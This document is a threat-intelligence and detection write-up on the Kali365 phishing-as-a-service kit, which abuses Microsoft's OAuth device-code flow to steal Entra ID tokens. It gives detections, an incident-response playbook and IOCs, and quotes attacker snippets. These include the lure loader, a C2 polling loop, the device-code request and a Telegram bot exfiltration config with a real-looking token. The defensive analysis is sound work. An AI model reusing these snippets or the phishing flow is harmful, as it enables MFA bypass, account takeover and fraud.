

# Kali365 (K365) — OAuth 2.0 device-code phishing-as-a-service expands to a multi-brand identity operation

## TL;DR

Kali365 (also "K365") is a phishing-as-a-service platform, first seen in April 2026 and sold via Telegram, that abuses Microsoft's legitimate OAuth 2.0 device authorization grant to steal Entra ID tokens and bypass MFA without ever touching the victim's password. The operator initiates a device-code request against their own public-client app, embeds the resulting `user_code` in a OneDrive/SharePoint-themed lure, and the victim authorises it at the genuine `microsoft.com/devicelogin` page — handing access and refresh tokens straight to the attacker. On 2 June 2026 Arctic Wolf Labs published a follow-up to its "Token Bingo" report showing the same operator has expanded into a multi-brand operation: a live C2 panel (`panel.securehubcloud.com`), a 126-host kit cluster active 6–27 May, and a MAX Messenger account-takeover campaign that defeats SMS-OTP and 2FA in one interaction. The FBI flagged Kali365 in IC3 alert PSA260521 (21 May 2026) as enabling low-skill actors with AI-generated lures and OAuth token capture. This case is identity-and-fraud (#5) with BEC follow-on (#27), SaaS-brand abuse (#6) and CTI infrastructure tradecraft (#24); attribution of the operator is low-confidence, the mechanics and infrastructure are high-confidence and triangulated.

## Attribution and confidence

**Primary cluster:** Kali365 / K365 — an unattributed phishing-as-a-service operator. Arctic Wolf tracks the platform; the FBI references it by kit name. Confidence in a *named human actor* is **low** (no nation-state or e-crime group attribution; the operator's internal branding is "K365 Control"). Confidence in the *mechanics and infrastructure* is **high**, triangulated across Arctic Wolf Labs (Token Bingo + the 2 June expansion report), the FBI IC3 PSA260521, Obrela's threat advisory, The Register, and ANY.RUN.

**Aliases / labels:** Kali365, K365, "Kali365 Live" (affiliate panel). Distributed and advertised on Telegram with a tiered admin → agent → client reseller model and a subscription ("Renewal") economic structure.

**Targeting profile:** a deliberate dual focus. Western enterprise identity (Microsoft 365 / Entra ID, Okta SSO, Xerox DocuShare, LiveDrive, GMX) alongside Russian consumer internet (Mail.ru, Yandex Disk, Odnoklassniki, and an active MAX Messenger takeover campaign). The kit hint text "a Russian number is required" and the +7 phone targeting confirm the Russian-services emphasis.

| Overlap signal | Observation | Assessment |
|---|---|---|
| TLS cert SHA1 `6894a51278ec89118276c2dd2dc36e6f9ea2790a` | Served on `api.securehubcloud.com`; pivots to `api.`/`boss.`/`panel.` subdomains | Single operator backend |
| Page title `K365 Control` | Repeats across securehubcloud subdomains and on the off-zone host `greatness-marketing.top` | Same operator, different domain |
| HTTP banner hash `febb622cd9eeb5c8860dcef4cbfd4b74` | 126 distinct hosts, 6–27 May 2026 | One kit-template cluster, not 126 threats |
| Original "Token Bingo" origin `216.203.20.95` | Reverse proxy on TCP/8443 terminating the shared cert | Same kit lineage across reports |

**Genealogy with previous repo cases.** This is the diary's first device-code-phishing and first dedicated PhaaS-infrastructure case. It complements the AiTM/identity thread: `2026-05-06_CodeOfConduct-AiTM-Storm-1747` (Tycoon2FA reverse-proxy AiTM — a *different* MFA-bypass mechanism: credential+cookie interception vs. device-code token issuance) and `2026-05-20_Storm-2949-Cloud-Identity-SSPR` (post-compromise Entra identity takeover). It also extends the "detection without static IOCs" thread (`2026-06-05_Netlogon`, `2026-06-07_SecureBoot`, `2026-06-08_OP-512`): the durable anchor here is the device-code *protocol* and content/cert *fingerprints*, not the rotating Worker domains.

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Acquire infrastructure | T1583.006 | Cloudflare Worker front-ends, `securehubcloud.com` C2, `attachedfile.com` shared cPanel; AI lure generator |
| Delivery (spearphishing link) | T1566.002, T1656 | OneDrive/SharePoint-themed lure; "Preparing your secure document..." loader; brand impersonation |
| Request device code | T1528 | Operator app requests a device code from Microsoft; `user_code` (e.g. `SHQ748WLY`) hardcoded into the lure |
| Victim authorisation (MFA bypass) | T1528, T1078.004 | Victim enters the code at genuine `microsoft.com/devicelogin` and completes MFA; tokens issued to attacker app |
| C2 token-capture polling | T1071.001 | Lure polls `panel.securehubcloud.com` every 3s; `status === 'captured'` confirms token issuance |
| Token use and persistence | T1550.001, T1078.004 | Attacker uses access + refresh tokens (refresh valid up to 90 days, survives password reset) |
| Mailbox collection / BEC follow-on | T1114.002, T1567 | Graph API reads mail/files, sends mail, hijacks threads; MAX variant exfils OTP/2FA via Telegram bot |

## Kill chain diagram



The diagram uses two lanes: the victim/identity-plane on the left (lure load → device-code entry at the genuine Microsoft endpoint → MFA completion → token issuance → mailbox/BEC follow-on) and the operator infrastructure on the right (PhaaS panel, Cloudflare Worker lures, the `securehubcloud.com` C2 polled every three seconds, the certificate/banner pivots, and the MAX-Messenger/Telegram exfil branch). The critical (red) anchors are the moment the victim authorises the attacker's device code at the legitimate `microsoft.com/devicelogin` page — the single point where MFA is bypassed — and the C2 poll that signals token capture; both are where detection should concentrate.

## Stage-by-stage detail

### 1. Acquire infrastructure (T1583.006)

The operator runs a multi-tenant PhaaS backend behind Cloudflare. The C2 lives at `panel.securehubcloud.com` (login page branded only "PANEL"), with sibling hosts `api.securehubcloud.com` and `boss.securehubcloud.com` on Cloudflare-fronted IPs `172.67.156.83` and `104.21.32.229` (AS13335). Lures are served from disposable Cloudflare Workers (e.g. `open-box-rpps.jeff-1fd.workers.dev`) and a shared cPanel host `attachedfile.com` (39 observed subdomains). The FBI notes the kit provides "AI-generated phishing lures, automated campaign templates, real-time targeted individual/entity tracking dashboards, and OAuth token capture capabilities."

### 2. Delivery — spearphishing link and impersonation (T1566.002, T1656)

The victim receives a link to a page that opens with a `Preparing your secure document...` loader, performs a same-origin `fetch()` to a sibling path, and uses `document.open()` / `document.write()` to swap in lure HTML returned by the C2. The page impersonates a OneDrive/SharePoint share (and, across the cluster, Outlook/Live, Okta SSO, Xerox DocuShare, GMX, Mail.ru, Yandex Disk and Odnoklassniki).

```
setTimeout(2000) -> fetch("https://data-form-o5pu.p-ntz8agp6.workers.dev/...")
 -> document.open(); document.write(<lure>)   // "Preparing your secure document..."
```

### 3. Request device code (T1528)

The operator's public-client application calls Microsoft's device authorization endpoint and receives a legitimate `user_code`. That code is baked into the lure at delivery time (observed example `SHQ748WLY`) along with a hardcoded affiliate/session id (`SID 2091010`) that maps the lure back to the operator's tenant in the C2.

```
POST https://login.microsoftonline.com/common/oauth2/v2.0/devicecode
  client_id=<attacker public client>&scope=...offline_access
-> { "user_code": "SHQ748WLY", "device_code": "...", "verification_uri": "https://microsoft.com/devicelogin" }
```

### 4. Victim authorisation — MFA bypass (T1528, T1078.004)

The lure auto-copies the `user_code` to the clipboard when the victim clicks "View" and opens `login.microsoftonline.com/common/oauth2/deviceauth` — a *legitimate* Microsoft endpoint — in a popup. The victim pastes the code, signs in, and completes MFA themselves. Microsoft then issues access and refresh tokens **directly to the attacker's application**. MFA provides no protection here because the victim performs the challenge on the attacker's behalf; the refresh token is valid for up to 90 days and survives a password reset.

### 5. C2 token-capture polling (T1071.001)

Throughout, the lure footer polls the operator's C2 every three seconds:

```javascript
// extracted by Arctic Wolf from a live lure
setInterval(() => fetch("https://panel.securehubcloud.com/status?sid=2091010")
  .then(r => r.json()).then(d => { if (d.status === 'captured') { /* tokens issued */ } }), 3000);
```

Any outbound connection to `panel.securehubcloud.com` from a managed endpoint therefore means that host rendered a live Kali365 page.

### 6. Token use and persistence (T1550.001, T1078.004)

With the tokens, the operator authenticates to Microsoft Graph as the victim. Because the tokens were minted by Microsoft for the attacker's app, subsequent access frequently originates from Cloudflare/hosting ASNs distinct from where the victim completed the flow — the cross-ASN reuse that hunt H2 and the companion KQL detect.

### 7. Mailbox collection, BEC follow-on, and the MAX branch (T1114.002, T1567, T1111)

Graph access enables reading mail and files, creating inbox rules, and sending mail (thread hijacking / invoice fraud — the BEC pivot, #27). The parallel MAX Messenger branch (`greatness-marketing.top`) is a "prize claim" page that collects the victim's +7 phone number, the real one-time login code MAX sends, and the 2FA password, defeating SMS-OTP and 2FA in a single interaction (T1111). Captured values are exfiltrated in real time to a hardcoded Telegram bot:

```html
<script>
  window.TELEGRAM_NOTIFY_CONFIG = {
    botToken: '8535071077:AAFus1ccm-puZ2htZkpKP_UyZfp3FTHFCzg',
    chatId: '-5035652280'   // @NovosibyrskyMoneyBot / sova_novosibirsk_bot
  };
</script>
```

## RE notes

No compiled binary sample exists for this case — the artifacts are server-rendered HTML phishing kits and the OAuth flow itself. The two YARA rules are explicitly content heuristics for *retrieved HTML captures* (the device-code kit template and the MAX takeover page), not signatures of a compiled malware sample.

| Component | Identifier | Lang | Packer | Notes |
|---|---|---|---|---|
| Device-code lure template | banner hash `febb622cd9eeb5c8860dcef4cbfd4b74` | HTML/JS | none | "Preparing your secure document..."; `document.write` swap; SID `2091010` |
| C2 panel | TLS SHA1 `6894a51278ec89118276c2dd2dc36e6f9ea2790a` | — | none | Title `K365 Control`; 3-second poll; subscription "Renewal" model |
| MAX takeover page | host `greatness-marketing.top` | HTML/JS | none | Telegram exfil config; +7 phone + OTP + 2FA capture; pixel `tk.mowell.tech` |

## Detection strategy

### Telemetry that matters

- **Entra ID sign-in logs** (`SigninLogs` / Defender `AADSignInEventsBeta`): `AuthenticationProtocol == "deviceCode"`, `ResultType`, `AutonomousSystemNumber`, `AppDisplayName`, `ResourceDisplayName`. This is the primary surface.
- **Non-interactive sign-ins** (`AADNonInteractiveUserSignInLogs`): token-bearing resource access used for cross-ASN reuse correlation.
- **Cloud app / Office audit** (`CloudAppEvents` / `OfficeActivity`): inbox-rule creation, `MailItemsAccessed`, `Send`/`SendAs` for BEC follow-on.
- **Endpoint network** (`DeviceNetworkEvents`) and **secure web gateway/proxy**: connections to the kit/C2 hosts and the content fingerprint in response bodies.

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | `sigma/kali365_entra_device_code_signin_anchor.yml` | Successful Entra sign-in via `deviceCode` protocol (behavioural anchor) |
| Sigma | `sigma/kali365_device_code_signin_from_hosting_asn.yml` | Device-code sign-in originating from Cloudflare/hosting ASN |
| Sigma | `sigma/kali365_c2_kit_network_connection.yml` | Endpoint connection to `securehubcloud.com` / `attachedfile.com` / `greatness-marketing.top` / `mowell.tech` |
| KQL | `kql/kali365_device_code_signin_anchor.kql` | Device-code sign-in inventory + per-user baseline |
| KQL | `kql/kali365_device_code_then_token_use_new_asn.kql` | Device-code issuance then token use from a different hosting ASN within 60 min |
| KQL | `kql/kali365_c2_kit_infra_beacon.kql` | Endpoint beacon to kit/C2 infrastructure |
| KQL | `kql/kali365_graph_mailbox_collection_post_devicecode.kql` | Inbox-rule / mailbox-read / send after device-code sign-in (BEC) |
| YARA | `yara/kali365_phishing_kit_html.yar` | Device-code kit HTML template (content heuristic) |
| YARA | `yara/kali365_max_takeover_html.yar` | MAX Messenger takeover page + Telegram exfil config (content heuristic) |
| Suricata | `suricata/kali365_infra.rules` | TLS SNI to C2, DNS for kit zones, kit loader string in HTTP response |

### Threat hunting hypotheses

- **H1** — `hunts/peak_h1_device_code_baseline_anomaly.md`: baseline who legitimately uses device code; the rare, recent, low-count human users are the anomaly.
- **H2** — `hunts/peak_h2_token_reuse_cross_asn.md`: device-code issuance followed by token use from a different hosting ASN confirms token theft.
- **H3** — `hunts/peak_h3_kit_content_and_infra_fingerprint.md`: hunt the kit content string, TLS cert SHA1 and banner hash, which outlive the rotating Worker domains.

## Incident response playbook

### First 60 minutes (triage)

1. Confirm the device-code sign-in in `SigninLogs` for the reported user; record `IPAddress`, `AutonomousSystemNumber`, `AppDisplayName`, `ResourceDisplayName` and the exact issuance time.
2. **Revoke refresh tokens and sessions** for the user (`Revoke-MgUserSignInSession`). Do this first — a password reset alone leaves the 90-day refresh token valid.
3. Reset the password and force MFA re-registration after the revocation.
4. Run the cross-ASN reuse KQL (H2) to determine whether tokens were already used and from where; capture the attacker IP/ASN.
5. Pull the user's mailbox audit for new inbox rules and any sent mail in the dwell window; quarantine attacker-created rules.

### Artifacts to collect

| Artifact | Path / source | Tool | Why |
|---|---|---|---|
| Device-code sign-in events | `SigninLogs` / `AADSignInEventsBeta` | Sentinel / Defender | Confirm issuance, time, origin |
| Non-interactive token use | `AADNonInteractiveUserSignInLogs` | Sentinel | Cross-ASN reuse evidence |
| Mailbox audit | `CloudAppEvents` / Purview audit | M365 audit | Inbox rules, reads, sends (BEC) |
| OAuth grants / app consents | Entra ID enterprise apps + audit | Entra portal / Graph | Confirm the public-client app and scope |
| Endpoint/proxy web logs | `DeviceNetworkEvents` / SWG | Defender / proxy | Connections to kit/C2 hosts |

### IR queries and commands

```powershell
# Revoke all refresh tokens / sessions for the affected user (run FIRST)
Revoke-MgUserSignInSession -UserId "victim@contoso.com"
# Enumerate the user's mailbox rules for attacker-created forwarding/hide rules
Get-InboxRule -Mailbox "victim@contoso.com" | Select Name,Enabled,ForwardTo,RedirectTo,DeleteMessage,MoveToFolder
```

```kql
// Did this user complete a device-code sign-in, and from where?
SigninLogs
| where TimeGenerated > ago(14d)
| where UserPrincipalName =~ "victim@contoso.com" and AuthenticationProtocol == "deviceCode"
| project TimeGenerated, ResultType, IPAddress, AutonomousSystemNumber, AppDisplayName, ResourceDisplayName
```

### Containment, eradication, recovery

- **Exit criteria:** refresh tokens revoked, password reset, MFA re-registered, no token use from attacker ASN after revocation, attacker inbox rules removed, no new device-code sign-ins for the principal.
- **What NOT to do:** do not reset the password without revoking sessions first (the refresh token outlives the reset); do not rely on blocking a single Worker domain (they rotate within days — block `securehubcloud.com` and `*.attachedfile.com` and the cert/banner fingerprints instead); do not assume MFA contained the attack (the victim completed MFA for the attacker).

### Recovery validation

Confirm there are no successful sign-ins for the principal from the attacker IP/ASN after token revocation; verify Conditional Access now restricts or blocks the device-code flow tenant-wide; re-run H1/H2 after 24–48 h to confirm no recurrence; review whether any mail was sent from the account during dwell and notify affected recipients (BEC blast radius).

## IOCs

Top indicators (full list in `iocs.csv`). Worker subdomains rotate within days; the cert, banner and content fingerprints are the durable anchors.

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| domain | panel.securehubcloud.com | C2 panel polled every 3s; high-confidence C2 | high | Arctic Wolf 2026-06-02 |
| domain | api.securehubcloud.com | C2 host serving the pivot TLS cert | high | Arctic Wolf 2026-06-02 |
| domain | boss.securehubcloud.com | C2 sibling (operator tier) | high | Arctic Wolf 2026-06-02 |
| domain | greatness-marketing.top | MAX Messenger takeover page | high | Arctic Wolf 2026-06-02 |
| domain | attachedfile.com | Shared cPanel kit host (39 subdomains) | high | Arctic Wolf 2026-06-02 |
| domain | tk.mowell.tech | Tracking pixel on MAX takeover page | medium | Arctic Wolf 2026-06-02 |
| ipv4 | 172.67.156.83 | Cloudflare-fronted C2 IP (AS13335) | medium | Arctic Wolf 2026-06-02 |
| ipv4 | 104.21.32.229 | Cloudflare-fronted C2 IP (AS13335) | medium | Arctic Wolf 2026-06-02 |
| ipv4 | 216.203.20.95 | Token Bingo origin; reverse proxy TCP/8443 | medium | Arctic Wolf Token Bingo |
| sha1 | 6894a51278ec89118276c2dd2dc36e6f9ea2790a | C2 TLS cert fingerprint (pivot) | high | Arctic Wolf 2026-06-02 |
| string | febb622cd9eeb5c8860dcef4cbfd4b74 | HTTP banner hash (126-host pivot) | high | Arctic Wolf 2026-06-02 |
| string | K365 Control | Operator C2 page-title fingerprint | high | Arctic Wolf 2026-06-02 |
| string | Preparing your secure document... | Kit loader content fingerprint | high | Arctic Wolf 2026-06-02 |
| string | 8535071077:AAFus1ccm-puZ2htZkpKP_UyZfp3FTHFCzg | Telegram exfil bot token (MAX) | high | Arctic Wolf 2026-06-02 |
| cve | none | Abuse of OAuth 2.0 device grant (RFC 8628), not a software flaw | high | analysis |

## Secondary findings

- **BEC follow-on is the monetisation (#27).** A device-code token is not the goal in itself; it is Graph API access to the mailbox. The same primitive that bypasses MFA also enables thread hijacking, inbox-rule manipulation and invoice/payment fraud. Detection must extend past the sign-in into mailbox audit (`kql/kali365_graph_mailbox_collection_post_devicecode.kql`).
- **Multi-brand SaaS abuse from one backend (#6).** The 2 June cluster impersonates Microsoft 365, Okta SSO and Xerox DocuShare alongside Russian consumer platforms — a single operator rotating one C2 across many disposable front-ends. The Okta/DocuShare front-ends show device-code/identity phishing is not a Microsoft-only problem; any IdP supporting device or token flows is in scope.
- **CTI tradecraft beats domain blocklists (#24).** Arctic Wolf pivoted from one live lure to the full backend via the TLS cert SHA1, then to a 126-host cluster via the HTTP banner hash, then to an off-zone host via the literal page title `K365 Control`. Certificate, banner and title fingerprints are the durable hunt surface when the operator's domains live for days.

## Pedagogical anchors

- **MFA is not a control against device-code phishing.** The victim completes the MFA challenge for the attacker; the token is minted for the attacker's app. The mitigations are Conditional Access restrictions on the device-code flow and phishing-resistant (FIDO2) auth, not "turn on MFA."
- **Revoke tokens, then reset the password — in that order.** The refresh token is valid up to 90 days and survives a password reset. Resetting the password alone is a non-remediation; this is the single most common IR mistake for token-theft cases.
- **Anchor detection on the protocol and the consequence, not the domain.** Worker subdomains rotate in days. The device-code *protocol* in sign-in logs, the cross-ASN token *reuse*, and the kit's content/cert/banner *fingerprints* are what survive.
- **A legitimate flow abused is harder to detect than malware.** There is no exploit and no CVE — the device authorization grant (RFC 8628) is working exactly as designed. The detection signal is behavioural rarity (who, in your org, ever uses device code?), not a payload.
- **PhaaS lowers the skill floor and broadens the brand surface.** AI-generated lures, Telegram distribution and tiered resellers mean one backend serves Microsoft, Okta, Xerox and Russian consumer brands at once; defenders should expect the same kit against any IdP, not just M365.

## What's in this folder

| File | Purpose |
|---|---|
| `README.md` | This write-up (15 sections). |
| `kill_chain.svg` | Two-lane kill-chain diagram (victim identity-plane vs. operator infrastructure). |
| `iocs.csv` | Full IOC list: C2/kit domains, IPs, TLS cert SHA1, banner/content fingerprints, Telegram exfil, with confidence and source. |
| `sigma/kali365_entra_device_code_signin_anchor.yml` | Entra sign-in via device-code protocol (behavioural anchor). |
| `sigma/kali365_device_code_signin_from_hosting_asn.yml` | Device-code sign-in from Cloudflare/hosting ASN. |
| `sigma/kali365_c2_kit_network_connection.yml` | Endpoint connection to Kali365 C2/kit hosts. |
| `kql/kali365_device_code_signin_anchor.kql` | Device-code sign-in inventory and per-user baseline. |
| `kql/kali365_device_code_then_token_use_new_asn.kql` | Cross-ASN token-reuse correlation (token theft). |
| `kql/kali365_c2_kit_infra_beacon.kql` | Endpoint beacon to kit/C2 infrastructure. |
| `kql/kali365_graph_mailbox_collection_post_devicecode.kql` | Mailbox/inbox-rule abuse after device-code sign-in (BEC). |
| `yara/kali365_phishing_kit_html.yar` | Device-code kit HTML template (content heuristic). |
| `yara/kali365_max_takeover_html.yar` | MAX Messenger takeover page + Telegram exfil (content heuristic). |
| `suricata/kali365_infra.rules` | TLS SNI / DNS / HTTP-content network detections. |
| `hunts/peak_h1_device_code_baseline_anomaly.md` | PEAK hunt: device-code baseline and anomaly. |
| `hunts/peak_h2_token_reuse_cross_asn.md` | PEAK hunt: cross-ASN token reuse. |
| `hunts/peak_h3_kit_content_and_infra_fingerprint.md` | PEAK hunt: content/cert/banner fingerprints. |

## Sources

- [From Token Bingo to MAX Takeover: Kali365 Operator Expands Operation (Arctic Wolf Labs, 2026-06-02)](https://arcticwolf.com/resources/blog/kali365-expands-into-aws-microsoft-okta-xerox-max-messenger/)
- [Token Bingo: Don't Let Your Code Be the Winner (Arctic Wolf Labs)](https://arcticwolf.com/resources/blog/token-bingo-dont-let-your-code-be-the-winner/)
- [FBI IC3 PSA260521 — Kali365 Phishing-as-a-Service Kit Hijacks Microsoft 365 Access Tokens (2026-05-21)](https://www.ic3.gov/PSA/2026/PSA260521)
- [Kali365 Infrastructure: Abusing OAuth Device Code Phishing (Obrela threat advisory, 2026-05-19)](https://www.obrela.com/advisory/kali365-infrastructure-abusing-oauth-device-code-phishing/)
- [FBI warns of Kali365 as device code phishing soars (The Register, 2026-05-22)](https://www.theregister.com/cyber-crime/2026/05/22/fbi-warns-of-kali365-as-device-code-phishing-soars/5245024)
- [Kali365: PhaaS Overview (ANY.RUN, June 2026)](https://any.run/malware-trends/kali365/)
- [Microsoft identity platform and the OAuth 2.0 device authorization grant flow (Microsoft Learn)](https://learn.microsoft.com/en-us/entra/identity-platform/v2-oauth2-device-code)
- [MITRE ATT&CK T1528 — Steal Application Access Token](https://attack.mitre.org/techniques/T1528/)
